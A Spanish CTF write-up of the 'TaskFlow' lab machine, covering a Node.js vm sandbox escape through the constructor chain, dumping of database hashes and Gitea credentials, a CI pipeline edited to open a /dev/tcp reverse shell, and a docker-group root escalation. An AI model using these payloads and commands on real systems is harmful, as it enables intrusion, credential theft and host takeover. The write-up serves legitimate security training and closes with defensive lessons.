


# Writeup: TaskFlow (HackSmarter — Media)

TaskFlow es una máquina **Media** que simula una plataforma de gestión de proyectos con múltiples microservicios Docker. El recorrido comienza con un análisis de los blogs internos de la aplicación, que revelan detalles críticos sobre la arquitectura: un frontend Astro, un backend NestJS, una base de datos PostgreSQL y un **sandbox de ejecución de código** Node.js. Aprovechando una vulnerabilidad de **escape del sandbox de Node.js `vm`** a través de la cadena de constructores, se obtiene ejecución de comandos como el usuario `sandbox`. Desde allí se accede a la base de datos PostgreSQL, se extraen hashes de contraseñas y credenciales de Gitea, y se descubre un **runner de CI/CD** vulnerable. Modificando el pipeline de Gitea Actions se obtiene una shell como `echoes`, miembro del grupo `docker`, lo que permite montar el sistema de archivos del host y leer la flag de `root`.

---

## Fase 1: Reconocimiento

Realizamos un escaneo completo de puertos con Nmap:

```bash
sudo nmap -sS --min-rate 500 -p- -Pn -n -vv 10.1.120.87 -oG allPorts
```

**Resultado:**

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 62
80/tcp open  http    syn-ack ttl 62
```

Realizamos un escaneo de servicios:

```bash
nmap -sCV -p 22,80 10.1.120.87 -oN targeted
```

**Resultados clave:**

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH ...
80/tcp open  http    Apache/nginx (proxy inverso)
```

**Observaciones clave:**

- **Puerto 22 (SSH)**: OpenSSH.
- **Puerto 80 (HTTP)**: Servidor web con un proxy inverso que sirve la aplicación **TaskFlow**.

Añadimos el dominio al archivo `/etc/hosts`:

```bash
echo "10.1.120.87 taskflow.hsm" | sudo tee -a /etc/hosts
```

Accedemos a `http://taskflow.hsm/` y encontramos una plataforma moderna de gestión de proyectos.



---

## Fase 2: Análisis de la documentación pública

La aplicación incluye un blog con cuatro artículos que describen la arquitectura interna. Esta es una fuente de información crítica para el pentesting.

### 2.1 "Welcome to TaskFlow"

Artículo introductorio que revela el stack tecnológico:

- **Astro** (frontend)
- **NestJS** (backend)
- **Prisma** (ORM)
- **PostgreSQL** (base de datos)
- **Automation engine** que corre en un sandbox aislado

### 2.2 "Our New Microservice Architecture"

Artículo **crítico** que detalla la topología de servicios:

- **Frontend**: Astro
- **Backend**: NestJS (API)
- **Sandbox**: Node.js aislado para ejecutar automatizaciones de usuarios
- **Database**: PostgreSQL 16

**Características de seguridad del sandbox mencionadas:**

- `no-new-privileges`
- `cap_drop: ALL`
- `tmpfs with noexec`
- Límites de memoria (128MB) y CPU (0.25 cores)
- **Autenticación con secreto compartido** (Bearer token)
- Red interna `taskflow-internal` con `internal: true` (sin acceso a internet)

**Promesa del artículo:** *"Even if malicious code somehow executes, it's trapped in a container with no internet, no privileges, no file system access, and severe resource limits"*.

### 2.3 "Introducing the Automation Sandbox"

Artículo **más crítico** que describe el funcionamiento del sandbox:

**Funciones disponibles para el usuario:**

- `tasks` — Array de tareas del usuario
- `user` — Perfil del usuario
- `getTask(id)`, `getComments(taskId)`, `updateTask(id, data)`, `deleteTask(id)`, `createTask(data)`
- `log(msg)` — Log de depuración

**Modelo de seguridad declarado:**

- Ejecuta en un microservicio separado
- Todas las capabilities de Linux eliminadas
- Memoria limitada a 128MB
- CPU limitada a 0.25 cores
- **`tmpfs` con `noexec`**
- **Cada petición requiere un secreto compartido**
- **"Code execution uses Node's `vm` module with a carefully constructed sandbox context"**
- **"We freeze all injected objects to prevent prototype pollution"**
- **"We use a null-prototype context to block constructor-chain escapes"**

**Análisis:** El artículo afirma explícitamente que usa `null-prototype context` para bloquear **constructor-chain escapes**. Esto es una pista directa de la vulnerabilidad que vamos a explotar: si la implementación es incorrecta, el escape es posible.

### 2.4 "Markdown Pages & Image Embedding"

Artículo que menciona una **validación de trusted-host** para las imágenes embebidas. No es crítico para el ataque principal, pero revela que existe un servicio de imágenes (comentado en el `compose.yml` según el artículo anterior).

---

## Fase 3: Análisis de la aplicación web

### 3.1 Registro y login

Nos registramos en la aplicación y accedemos al dashboard.

Capturamos las peticiones con Burp Suite y analizamos los endpoints:

- `POST /api/auth/register`
- `POST /api/auth/login`
- `GET /api/tasks`
- `GET /api/pages`
- `POST /api/automations`
- `POST /api/automations/:id/test` — **Test automation code**

No encontramos nada interesante en las peticiones normales.

### 3.2 La funcionalidad de Automations

En el dashboard, la funcionalidad **Automations** permite escribir código JavaScript que se ejecuta en el sandbox. Incluye un botón **"Test automation code"** que permite probar el código antes de guardarlo.



**Código de prueba:**

```javascript
log("Hello " + user.username)
log("You have " + tasks.length + " tasks.")
```

**Output:**

```
✓ Success
--- Logs ---
Hello kali
You have 1 tasks.
```

**Hallazgo:** Tenemos ejecución de código JavaScript arbitrario en el sandbox.

### 3.3 Enumeración del contexto del sandbox

Para entender qué variables globales están disponibles, ejecutamos:

```javascript
log(Object.keys(globalThis).join(', '))
```

**Output:**

```
user, tasks, now, Date, Math, JSON, Array, Object, String, Number, Boolean, RegExp, Map, Set, parseInt, parseFloat, isNaN, isFinite, Promise, Error, TypeError, RangeError, updateTask, getTask, getComments, deleteTask, createTask, log, console
```

**Análisis:** El contexto del sandbox incluye `user`, `tasks`, `now`, las funciones helper, y los objetos estándar de JavaScript (`Date`, `Math`, `JSON`, `Object`, `Function` implícitamente, etc.).

**Observación clave:** No aparece `process`, `require`, `global`, ni `Buffer`. El sandbox ha eliminado explícitamente estos objetos del contexto global.

---

## Fase 4: Escape del sandbox de Node.js `vm` (VM Escape)

### 4.1 ¿Qué es el módulo `vm` de Node.js?

El módulo `vm` de Node.js permite ejecutar código JavaScript en un contexto aislado. La idea es que el código ejecutado en ese contexto **no tenga acceso** a los objetos del proceso principal (como `process`, `require`, `fs`, `child_process`, etc.).

**Ejemplo típico de uso:**

```javascript
const vm = require('vm');

const sandbox = { user: { username: 'kali' }, log: console.log };

// Creamos un contexto aislado
const context = vm.createContext(sandbox);

// Ejecutamos código del usuario
vm.runInContext('log("Hello " + user.username)', context);
```

**El problema:** El módulo `vm` **no es un mecanismo de seguridad** en Node.js. La documentación oficial lo dice explícitamente:

> *"The `vm` module is not a security mechanism. Do not use it to run untrusted code."*

El módulo `vm` está diseñado para propósitos de **depuración y testing**, no para aislar código malicioso. Existen múltiples formas de escapar del contexto, siendo la **constructor-chain escape** una de las más conocidas.

### 4.2 ¿Cómo funciona la constructor-chain escape?

En JavaScript, **todo objeto tiene una propiedad `constructor`** que apunta a la función que lo creó. Y **toda función tiene una propiedad `constructor`** que apunta al constructor `Function`.

**La cadena es la siguiente:**

```
user (objeto) → user.constructor === Object
Object (función) → Object.constructor === Function
Function (función) → Function('código')() ejecuta código arbitrario
```

**¿Por qué es peligroso?**

El constructor `Function` permite crear nuevas funciones a partir de una cadena de texto:

```javascript
const fn = Function('return 1 + 1');
console.log(fn()); // 2
```

Si podemos acceder al constructor `Function`, podemos crear una función que retorne cualquier objeto del **contexto del host** (no del sandbox). Por ejemplo:

```javascript
const fn = Function('return process');
const process = fn();
// process es el objeto process real de Node.js
```

**El problema:** Las funciones creadas con `Function` se ejecutan en el **contexto global del host** (el proceso principal de Node.js), no en el contexto aislado del `vm`. Esto es porque el constructor `Function` es una **función del host** que, cuando se invoca, compila el código en el scope global real.

**En un sandbox bien implementado**, el constructor `Function` debería estar bloqueado o reemplazado. Por ejemplo, estableciendo `context.Function = undefined` o usando `vm.createContext` con un contexto "limpio" (sin `Function`).

**En un sandbox mal implementado**, si `user` es un objeto del host que se pasa al contexto, entonces `user.constructor` es el `Object` del host, y `user.constructor.constructor` es el `Function` del host. Esto permite el escape.

### 4.3 Intento de escape directo (fallido)

Primero intentamos acceder a `process` directamente desde el contexto global:

```javascript
const p = this.constructor.constructor('return process')()
log(JSON.stringify(p.env))
```

**Resultado:**

```
✗ Error: Code generation from strings disallowed for this context
```

**Análisis del error:** `this` en el contexto del sandbox apunta al objeto global del contexto. `this.constructor` es `Object`, y `this.constructor.constructor` es `Function`. Pero el sandbox ha bloqueado la **code generation from strings** mediante la opción de V8 `--disallow-code-generation-from-strings`, o mediante la configuración del contexto `vm` con `codeGeneration: { strings: false }`.

**¿Qué es `codeGeneration: { strings: false }`?**

Es una opción de `vm.createContext` que impide el uso de `eval()` y del constructor `Function` para generar código a partir de strings. Si está habilitada, cualquier intento de llamar a `Function('...')` lanza un error.

**Esto indica que el sandbox tiene una capa de seguridad activa**, pero no significa que esté bien implementado.

### 4.4 Enumeración de constructores disponibles

Antes de intentar el escape, verificamos qué constructores están disponibles en el contexto:

```javascript
log(user.constructor.name)
log(user.constructor.constructor.name)
```

**Resultado:**

```
✓ Success
--- Logs ---
Object
Function
```

**Hallazgo crítico:** `user.constructor` es `Object` y `user.constructor.constructor` es `Function`. El constructor `Function` está accesible a través de la cadena de prototipos del objeto `user`.

**¿Por qué es importante?** El sandbox bloquea `Function` cuando se accede desde el contexto global (`this.constructor.constructor`), pero **no bloquea el constructor `Function` al que se llega a través del objeto `user`**. Esto sugiere que `user` es un objeto del **host** que se pasa al contexto sin ser "clonado" o "sanitizado".

### 4.5 Escape exitoso usando `user.constructor.constructor`

Ahora intentamos lo mismo pero accediendo a `Function` a través de `user`:

```javascript
const p = user.constructor.constructor('return process')()
log(JSON.stringify(p.env))
```

**Resultado:**

```
✓ Success
--- Logs ---
{"DATABASE_URL":"postgresql://taskflow:Pgta5kfl0w_Pr0d!@db:5432/taskflow","NODE_VERSION":"20.20.1","HOSTNAME":"d045dd66d0b9","YARN_VERSION":"1.22.22","SHLVL":"1","HOME":"/home/sandbox","PATH":"/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","SANDBOX_SECRET":"sandbox-shared-secret-change-in-production","PWD":"/app"}
```

**¡Escape exitoso!**

**Análisis del escape:**

1. `user` es un objeto del host que se pasa al contexto del sandbox.
2. `user.constructor` es la función `Object` del **host** (no del sandbox).
3. `user.constructor.constructor` es la función `Function` del **host**.
4. `Function('return process')` crea una función en el contexto del host.
5. Al invocarla, retorna el objeto `process` real del proceso de Node.js.
6. `p.env` nos da todas las variables de entorno del sandbox.

**¿Por qué el bloqueo de `this.constructor.constructor` no funcionó aquí?**

Porque `this` en el contexto del sandbox es el objeto global del contexto `vm`, que está aislado. Pero `user` es un objeto del **host** que se ha pasado al contexto. El constructor `Function` al que se llega a través de `user` es el `Function` del host, no el del contexto aislado. La restricción `codeGeneration: { strings: false }` solo se aplica al `Function` del contexto, no al del host.

**La falla de seguridad:** El sandbox asumió que bloquear `Function` en el contexto global era suficiente. Pero al pasar objetos del host al contexto (como `user`, `tasks`, `now`), se expone el constructor `Function` del host a través de la cadena de prototipos.

**La solución correcta:** Usar `structuredClone` para clonar los objetos y eliminar la cadena de prototipos del host, o usar `Object.create(null)` para crear objetos con prototipo nulo, o **mejor aún**: ejecutar el código en un proceso separado (como hace `isolated-vm` o un contenedor dedicado).

### 4.6 Variables de entorno obtenidas

Del escape obtenemos las variables de entorno del sandbox:

- **`DATABASE_URL`**: `postgresql://taskflow:Pgta5kfl0w_Pr0d!@db:5432/taskflow` — credenciales de PostgreSQL.
- **`SANDBOX_SECRET`**: `sandbox-shared-secret-change-in-production` — el secreto compartido para autenticarse contra el sandbox.
- **`HOSTNAME`**: `d045dd66d0b9` — el ID del contenedor Docker del sandbox.
- **`HOME`**: `/home/sandbox` — el directorio home del usuario `sandbox`.

**Hallazgo crítico:** El `SANDBOX_SECRET` es débil y está hardcodeado con el valor por defecto `change-in-production`. Esto permite autenticarse directamente contra el servicio del sandbox sin necesidad de la aplicación principal.

---

## Fase 5: Ejecución de comandos en el sandbox

### 5.1 Acceso a `child_process`

Ahora que tenemos acceso a `process`, podemos usar `mainModule.require` para cargar módulos de Node.js, incluyendo `child_process`:

```javascript
const p = user.constructor.constructor('return process')()
const fs = p.mainModule.require('fs')
log(fs.readFileSync('/etc/passwd'))
```

**Resultado:**

```
root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
...
node:x:1000:1000::/home/node:/bin/sh
sandbox:x:100:101::/home/sandbox:/sbin/nologin
```

**Hallazgo:** Podemos leer archivos arbitrarios en el sandbox. Los usuarios del sistema son `root`, `node` y `sandbox`.

### 5.2 Wrapper para ejecutar comandos

Creamos una función helper para ejecutar comandos y ver su salida en el panel de logs:

```javascript
// === Sandbox Escape ===
const p = user.constructor.constructor('return process')();
const cp = p.mainModule.require('child_process');

// Ejecuta comando y loguea output en el panel de logs
function shell(cmd, timeout = 5000) {
  log('\n$ ' + cmd);
  try {
    const r = cp.spawnSync('sh', ['-c', cmd], {
      encoding: 'utf8',
      timeout: timeout,
      maxBuffer: 10 * 1024 * 1024
    });
    if (r.stdout && r.stdout.trim()) log(r.stdout.trim());
    if (r.stderr && r.stderr.trim()) log('[stderr] ' + r.stderr.trim());
    if (r.error) log('[err] ' + r.error.message);
    if (r.status !== null && r.status !== 0) log('[exit] ' + r.status);
  } catch(e) {
    log('[exception] ' + e.message);
  }
}

shell('id')
```

**Resultado:**

```
✓ Success
--- Logs ---
$ id
uid=100(sandbox) gid=101(sandbox) groups=101(sandbox),101(sandbox)
```

**Hallazgo:** Ejecutamos comandos como el usuario `sandbox` (UID 100).

### 5.3 Enumeración del código fuente del sandbox

```javascript
shell('ls src')
```

**Resultado:**

```
$ ls src
db.js
executor.js
index.js
```

Leemos `index.js`:

```javascript
const fs = p.mainModule.require('fs')
log(fs.readFileSync('/app/src/index.js'))
```

**Resultado:**

```
{"DATABASE_URL":"postgresql://taskflow:Pgta5kfl0w_Pr0d!@db:5432/taskflow",...}
const express = require('express')
const pool = require('./db')
const { execute } = require('./executor')
```

**Análisis:** El sandbox es una aplicación Express que utiliza `./db` (PostgreSQL) y `./executor` (el ejecutor de código). El código se ejecuta en un contexto `vm` con las variables `user`, `tasks`, etc.

---

## Fase 6: Extracción de datos de PostgreSQL

### 6.1 Acceso al pool de la base de datos

Aprovechando el escape, accedemos al módulo `./db` del sandbox para ejecutar consultas SQL directamente:

```javascript
const P = now.constructor.constructor('return process')()
const pool = P.mainModule.require('./db')
const r = await pool.query(`
SELECT table_name,
       string_agg(column_name, ', ' ORDER BY ordinal_position) AS columns
FROM information_schema.columns
WHERE table_schema = 'public'
GROUP BY table_name
ORDER BY table_name
`)
for (const row of r.rows) log(`${row.table_name}: ${row.columns}`)
```

**Resultado:**

```
automations: id, user_id, name, code, is_active, created_at
comments: id, task_id, user_id, content, created_at
images: id, user_id, filename, mimetype, size, created_at
pages: id, user_id, title, content, created_at
tasks: id, user_id, title, description, time_spent, status, priority, start_date, due_date, end_date, created_at, updated_at
users: id, username, password_hash, email, created_at, is_admin
```

**Hallazgo:** La tabla `users` contiene hashes de contraseñas y un campo `is_admin`.

### 6.2 Extracción de hashes de usuarios

```javascript
const P = now.constructor.constructor('return process')()
const pool = P.mainModule.require('./db')
const r = await pool.query(`
SELECT username, password_hash, is_admin
FROM users
ORDER BY id
`)
for (const row of r.rows) log(`${row.username} | ${row.password_hash} | admin=${row.is_admin}`)
```

**Resultado:**

```
admin | $2b$10$fPk4o5yfiI278RCjxl/EXe7PeX5waTsFq3U8xoVoBjYU3tEyioV56 | admin=true
tld3035 | $2b$10$.ZKvtKU1oQGqkua04QbuUunweT4o6QtC3zlGZzy/sOQQZ7dfyMw02 | admin=false
tld3035b | $2b$10$bTKodYggwXiNRmntBmqG5OuPo2rZUVST46MkNbSXPCcQUPgGlkfrC | admin=false
echoes | $2b$10$fw6qgEdg2fgb.e5ww3u45.ELfSNmiCYFoPqAv5M5Ol/.bU7nq7F2O | admin=false
solver39256338 | $2b$10$wP8SrE2zTP9ZEVqO9LJH6uQf3xy0RE41NfdZSmW95m6ky57EXW6Vq | admin=false
```

**Análisis:** Los hashes son **bcrypt** (prefijo `$2b$10$`), lo que los hace resistentes a ataques de diccionario rápidos. Sin embargo, el usuario `admin` es un objetivo interesante.

### 6.3 Extracción de comentarios (información sensible)

Los comentarios de las tareas suelen contener información sensible (credenciales, URLs internas, etc.):

```javascript
const P = now.constructor.constructor('return process')()
const pool = P.mainModule.require('./db')
const r = await pool.query(`
SELECT c.id, c.task_id, c.user_id, u.username, c.content, c.created_at
FROM comments c
JOIN users u ON u.id = c.user_id
ORDER BY c.id
`)
for (const row of r.rows) log(`#${row.id} task=${row.task_id} by=${row.username} | ${row.content}`)
```

**Resultado:**

```
#1 task=4 by=admin | Randy confirmed he can start next week. Need to get his access sorted before Monday.
#2 task=4 by=admin | Created the account on gitea.taskflow.hsm:

Username: randy
Password: R4ndyFr33worK!2025

He should change this on first login but knowing Randy he probably won't.
#3 task=4 by=admin | SSH key upload is enabled so he can push via git+ssh once he adds his public key.
#4 task=4 by=admin | Done. Sent Randy the credentials via encrypted email.
#5 task=1 by=admin | Pipeline is green. E2E tests run on every push to main. Deploys automatically if tests pass.
#6 task=11 by=echoes | I feel so many things at the same time
#7 task=12 by=echoes | Try slightly harder
```

**Hallazgo crítico:**

- Nuevo subdominio: **`gitea.taskflow.hsm`**
- Credenciales de Gitea: **`randy` / `R4ndyFr33worK!2025`**
- El comentario #5 confirma que hay un **pipeline de CI/CD** que se ejecuta en cada push a `main` y despliega automáticamente.

---

## Fase 7: Acceso a Gitea y análisis del CI/CD

### 7.1 Acceso a Gitea

Añadimos el subdominio al archivo `/etc/hosts`:

```bash
echo "10.1.120.87 gitea.taskflow.hsm" | sudo tee -a /etc/hosts
```

Accedemos a `http://gitea.taskflow.hsm/` y nos autenticamos con las credenciales de `randy`.


### 7.2 Análisis del repositorio `admin/taskflow`

Encontramos el repositorio `admin/taskflow` con un **issue #1** que menciona un problema con el CI:

> *"The e2e test pipeline sometimes fails and the error output dumps build metadata from package.json through xargs. Not sure why it does that — looks like a debug leftover from when we were troubleshooting the test runner.*
>
> *The relevant part is in `.gitea/workflows/ci.yml`."*

### 7.3 Análisis del archivo `ci.yml`

```yaml
name: TaskFlow CI

on:
  push:
    branches: [main]

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - name: Checkout
        uses: actions/checkout@v4

      - name: Install dependencies
        run: |
          cd backend
          bun install

      - name: Run e2e tests
        run: |
          cd backend
          bun test:e2e 2>&1 || {
            echo "=== Tests failed ==="
            echo "Collecting build metadata for error report..."
            APP_VERSION=$(cat package.json | xargs echo)
            echo "Build metadata: $APP_VERSION"
            exit 1
          }
```

**Análisis del pipeline:**

- Se ejecuta en cada `push` a `main`.
- Corre en un **runner de Gitea Actions** (similar a GitHub Actions pero self-hosted).
- El paso `Run e2e tests` ejecuta comandos arbitrarios mediante `bun test:e2e`.
- El bloque `|| { ... }` es un manejador de errores que se ejecuta si los tests fallan.

**Hallazgo crítico:** Si podemos modificar el archivo `ci.yml` y hacer un push a `main`, el runner ejecutará nuestros comandos. El issue #1 menciona que `xargs` está en el pipeline, pero nosotros podemos añadir nuestros propios comandos.

### 7.4 Verificación del acceso de escritura

Comprobamos si `randy` tiene permisos para hacer push a `main`:

- El issue menciona que `randy` es "Collaborator" y fue asignado por `admin`.
- El comentario #3 dice: *"SSH key upload is enabled so he can push via git+ssh once he adds his public key."*

Por lo tanto, `randy` **tiene permisos de escritura** en el repositorio.

---

## Fase 8: Explotación del CI/CD

### 8.1 Intento inicial (fallido)

Modificamos el `ci.yml` para añadir una reverse shell al principio del paso `Run e2e tests`:

```yaml
name: TaskFlow CI

on:
  push:
    branches: [main]

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - name: Checkout
        uses: actions/checkout@v4

      - name: Install dependencies
        run: |
          cd backend
          bun install

      - name: Run e2e tests
        run: |
          sh -i >& /dev/tcp/10.200.105.175/443 0>&1
          cd backend
          bun test:e2e 2>&1 || {
            echo "=== Tests failed ==="
            echo "Collecting build metadata for error report..."
            APP_VERSION=$(cat package.json | xargs echo)
            echo "Build metadata: $APP_VERSION"
            exit 1
          }
```

**Resultado del pipeline:**

```
Get "https://github.com/actions/checkout/info/refs?service=git-upload-pack": dial tcp: lookup github.com on 8.8.8.8:53: read udp 10.1.120.87:52536->8.8.8.8:53: i/o timeout
🏁 Job failed
```

**Análisis del error:** El runner no tiene acceso a internet (solo a la red interna `taskflow-internal`). El paso `Checkout` falla porque intenta descargar `actions/checkout@v4` desde GitHub, y no puede resolver `github.com`.

**Por qué falla:** El runner está en una red interna sin acceso a internet, por lo que no puede descargar las acciones de GitHub. Sin embargo, **el propio runner se ejecuta en la máquina del host**, no en un contenedor aislado.

### 8.2 Intento exitoso (eliminando el Checkout)

Eliminamos el paso `Checkout` porque no es necesario (el runner ya tiene el código clonado en el workspace):

```yaml
name: TaskFlow CI

on:
  push:
    branches: [main]

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - name: Run e2e tests
        run: |
          sh -i >& /dev/tcp/10.200.105.175/443 0>&1
          cd backend
          bun test:e2e 2>&1 || {
            echo "=== Tests failed ==="
            echo "Collecting build metadata for error report..."
            APP_VERSION=$(cat package.json | xargs echo)
            echo "Build metadata: $APP_VERSION"
            exit 1
          }
```

**Resultado:** El pipeline se ejecuta y obtenemos una reverse shell.

```bash
nc -nlvp 443
```

**Resultado:**

```bash
listening on [any] 443 ...
connect to [10.200.105.175] from (UNKNOWN) [10.1.120.87] 35948
sh-5.3$ id
uid=1000(echoes) gid=1000(echoes) groups=1000(echoes),970(docker),998(wheel)
```

**Hallazgo crítico:** Obtenemos una shell como **`echoes`**, miembro del grupo **`docker`** (GID 970).

**Análisis:** El runner de Gitea Actions se ejecuta como el usuario `echoes` en la máquina del host. Como `echoes` está en el grupo `docker`, tiene permisos para comunicarse con el daemon de Docker y ejecutar contenedores.

---

## Fase 9: Escalada a root mediante el grupo `docker`

### 9.1 Enumeración del entorno

```bash
ls -la /home/echoes/
```

**Resultado:**

```
drwx------ 9 echoes echoes 4096 Sep 11 17:06 .
drwxr-xr-x 3 root   root   4096 Mar 24  2026 ..
drwxr-xr-x 2 echoes echoes 4096 Mar 26  2026 .act-runner
-rw------- 1 echoes echoes 1129 Oct 24 23:06 .bash_history
-rw-r--r-- 1 echoes echoes   21 Dec 10  2025 .bash_logout
-rw-r--r-- 1 echoes echoes   57 Dec 10  2025 .bash_profile
-rw-r--r-- 1 echoes echoes  206 Mar 26  2026 .bashrc
drwxr-xr-x 3 echoes echoes 4096 Mar 26  2026 .bun
drwxr-xr-x 8 echoes echoes 4096 Mar 26  2026 .cache
drwxr-xr-x 3 echoes echoes 4096 Mar 26  2026 .config
drwxr-xr-x 4 echoes echoes 4096 Mar 26  2026 gitea-repositories
-rw------- 1 echoes echoes   26 Sep 11 17:06 .lesshst
-rw-r--r-- 1 echoes echoes     0 Sep 10 20:53 .python_history
drwx------ 2 echoes echoes 4096 Sep 10 19:07 .ssh
drwxr-xr-x 7 echoes echoes 4096 Mar 26  2026 taskflow
-rw-r--r-- 1 echoes echoes  223 Sep 10 22:29 todo.txt
-r--r----- 1 root   echoes   38 Sep 10 20:57 user.txt
```

**Hallazgo:** Encontramos `user.txt` en el home de `echoes`, pero es propiedad de `root` con permisos `r--r-----` y grupo `echoes`. Como `echoes` está en el grupo, podemos leerlo.

```bash
cat /home/echoes/user.txt
```

### 9.2 Listado de contenedores Docker

```bash
docker ps
```

**Resultado:**

```
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS                    PORTS                      NAMES
8f176c456fa1   oven/bun:1-alpine    "/usr/local/bin/dock…"   6 weeks ago    Up 47 minutes             127.0.0.1:4321->4321/tcp   taskflow-frontend
537d7afa9096   oven/bun:1-alpine    "/usr/local/bin/dock…"   6 weeks ago    Up 47 minutes             127.0.0.1:3000->3000/tcp   taskflow-backend
56d6f7d485e5   postgres:16-alpine   "docker-entrypoint.s…"   6 weeks ago    Up 47 minutes (healthy)   5432/tcp                   taskflow-db
d045dd66d0b9   taskflow-sandbox     "docker-entrypoint.s…"   7 months ago    Up 47 minutes (healthy)   3001/tcp                   taskflow-sandbox
```

**Análisis:** Vemos los cuatro contenedores que menciona el artículo del blog: frontend, backend, db y sandbox.

### 9.3 Escalada a root con Docker

El grupo `docker` permite comunicarse con el daemon de Docker, que se ejecuta como `root`. Podemos lanzar un contenedor con el sistema de archivos del host montado y acceder a él como `root`.

```bash
docker run --user 0 --network none --rm -v /:/host:ro --entrypoint /bin/sh postgres:16-alpine -c id
```

**Resultado:**

```
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

**Análisis del comando:**

- `--user 0`: Ejecuta el contenedor como el usuario `root` (UID 0).
- `--network none`: Sin red (no es necesario para leer archivos).
- `--rm`: Elimina el contenedor al salir.
- `-v /:/host:ro`: Monta el sistema de archivos del host en `/host` dentro del contenedor (solo lectura).
- `--entrypoint /bin/sh`: Usa `sh` como entrypoint.
- `postgres:16-alpine`: Imagen base (ya está en la máquina, no necesita internet).
- `-c id`: Ejecuta `id` como comando.

Como el contenedor se ejecuta con `--user 0` y el sistema de archivos del host está montado, tenemos acceso de **root** a los archivos del host.

### 9.4 Lectura de la flag de root

```bash
docker run --user 0 --network none --rm -v /:/host:ro --entrypoint /bin/sh postgres:16-alpine -c 'id; cat /host/root/root.txt'
```

**Resultado:** Obtenemos la flag de `root`.

---

## 📌 Conclusión

TaskFlow es una máquina **Media** que combina:

1. **Análisis de documentación pública** (blogs) que revela la arquitectura interna.
2. **Escape del sandbox `vm` de Node.js** mediante la cadena de constructores.
3. **Ejecución de comandos** en el contenedor del sandbox.
4. **Acceso a la base de datos PostgreSQL** desde el sandbox.
5. **Extracción de credenciales** (Gitea) de los comentarios de las tareas.
6. **Explotación del pipeline de CI/CD** de Gitea Actions.
7. **Escalada a root** mediante el grupo `docker`.

---

## 📚 Lecciones aprendidas

1. **El módulo `vm` de Node.js no es un mecanismo de seguridad**  
   La documentación oficial de Node.js lo dice explícitamente: *"The `vm` module is not a security mechanism. Do not use it to run untrusted code."* El módulo `vm` está diseñado para depuración y testing, no para aislar código malicioso. Para ejecutar código no confiable, se deben usar soluciones como `isolated-vm`, procesos separados, o contenedores dedicados con aislamiento real.

2. **La constructor-chain escape es una técnica clásica de escape de sandboxes de JavaScript**  
   Todo objeto tiene un `constructor` que apunta a `Object`, y `Object.constructor` apunta a `Function`. Si el constructor `Function` del host es accesible desde el sandbox (por ejemplo, a través de objetos pasados desde el host), se puede crear código arbitrario en el contexto del host. La solución es usar `structuredClone` para clonar objetos, o crear objetos con `Object.create(null)` para eliminar la cadena de prototipos.

3. **Bloquear `Function` en el contexto global no es suficiente**  
   El sandbox de TaskFlow bloqueaba `this.constructor.constructor` mediante `codeGeneration: { strings: false }`. Pero al pasar objetos del host (`user`, `tasks`, `now`) al contexto, se expuso el constructor `Function` del host a través de la cadena de prototipos. La restricción solo se aplicaba al contexto aislado, no a los objetos del host.

4. **Los secretos compartidos no deben tener valores por defecto débiles**  
   El `SANDBOX_SECRET` era `sandbox-shared-secret-change-in-production`, un valor por defecto que nunca se cambió. Esto permitía autenticarse directamente contra el sandbox sin necesidad de la aplicación principal.

5. **Los comentarios y notas internas pueden contener credenciales**  
   Los comentarios de las tareas contenían credenciales de Gitea (`randy:R4ndyFr33worK!2025`) y URLs internas (`gitea.taskflow.hsm`). La información sensible no debe almacenarse en comentarios o notas accesibles desde la aplicación.

